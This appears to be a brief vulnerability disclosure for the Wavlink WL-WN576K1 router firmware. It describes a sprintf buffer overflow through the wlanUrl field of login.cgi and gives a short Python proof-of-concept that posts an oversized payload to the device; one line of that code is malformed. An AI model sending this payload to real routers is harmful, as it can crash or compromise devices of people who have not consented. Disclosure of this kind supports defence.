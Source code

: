 # buff overflow

## WAVLINK_WL_WN576K1

version: 20220801

## Description:

There is a buff overflow in login.cgi/Goto_chidx

## Source:

you may download it from : 

[WL-WN576K1 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/5ce8519bd8.html)

 Analyse:

![](9.png)

get value from wlanUrl, then call sprintf, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/login.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'Goto_chidx', 'wlanUrl': + payload})
```
